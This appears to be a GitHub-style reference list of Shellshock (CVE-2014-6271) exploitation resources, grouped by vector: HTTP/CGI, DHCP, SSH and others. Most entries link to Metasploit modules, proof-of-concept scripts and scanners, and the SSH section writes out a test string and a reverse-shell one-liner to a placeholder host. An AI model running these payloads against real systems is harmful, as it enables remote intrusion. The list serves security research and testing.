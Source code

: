 

## IBM z/OS - 
+ http://mainframed767.tumblr.com/post/98446455927/bad-news-is-it-totally-works-in-bash-on-z-os-and

## HTTP
+ Metasploit Exploit Module Apache MOD_CGI - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/apache_mod_cgi_bash_env_exec.rb
+ HTTP Header Polution by @irsdl - http://pastebin.com/QNkf7dYS
+ HTTP CGI-BIN - http://pastebin.com/166f8Rjx
+ cPanel - http://blog.sucuri.net/2014/09/bash-vulnerability-shell-shock-thousands-of-cpanel-sites-are-high-risk.html
+ Digital Alert Systems DASDEC - http://seclists.org/fulldisclosure/2014/Sep/107
+ F5 - https://twitter.com/securifybv/status/515035044294172673
  + https://twitter.com/securifybv/status/515035044294172673/photo/1
  + https://twitter.com/avalidnerd/status/515056463589675008
    + https://twitter.com/avalidnerd/status/515056463589675008/photo/1
+ Invisiblethreat.ca - https://www.invisiblethreat.ca/2014/09/cve-2014-6271/
+ Commandline version - https://gist.github.com/mfadzilr/70892f43597e7863a8dc
+ User-Agent based walkthrough with LiveHTTPHeaders - http://www.lykostech.net/lab-time-exploiting-shellshock-bash-bug-virtual-server/
+ User-Agent based walkthrough with Burp - http://oleaass.com/shellshock-proof-of-concept-reverse-shell/
+ User-Agent via Curl with test server - http://shellshock.notsosecure.com/
+ User-Agent based but supports Tor and Socks5 (Python) - https://github.com/lnxg33k/misc/blob/master/shellshock.py
+ User-Agent based in Ruby - https://github.com/securusglobal/BadBash
+ Header based simple scanner using sleep with multithread support - https://github.com/gry/shellshock-scanner

## Phusion Passenger
+ https://news.ycombinator.com/item?id=8369776 

## DHCP
+ Trusted sec exploitation via Tftpd32 - https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/
+ Metasploit Exploit Module - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/dhcp/bash_environment.rb
+ Metasploit Auxiliary Module - https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/server/dhclient_bash_env.rb
+ Perl Script - http://pastebin.com/S1WVzTv9
+ using a Wi-Fi pineapple to force people to join the network - http://d.uijn.nl/?p=32

## SSH
+ Stack Overflow - http://unix.stackexchange.com/questions/157477/how-can-shellshock-be-exploited-over-ssh
+ SSH ForcedCommand - https://twitter.com/JZdziarski/status/515205581226123264
  + https://twitter.com/JZdziarski/status/515205581226123264/photo/1
+ SendEnv: `LC_X='() { :; }; echo vulnerable' ssh foo@bar.org -o SendEnv=LC_X`
+ Gitolite - https://twitter.com/Grifo/status/515089986161766400
  + $ `ssh GITOLITEUSER@VULNERABLEIP '() { ignore;}; /bin/bash -i >& /dev/tcp/REVERSESHELLIP/PORT 0>&1'`
  + (necessary to have a git account on the server)
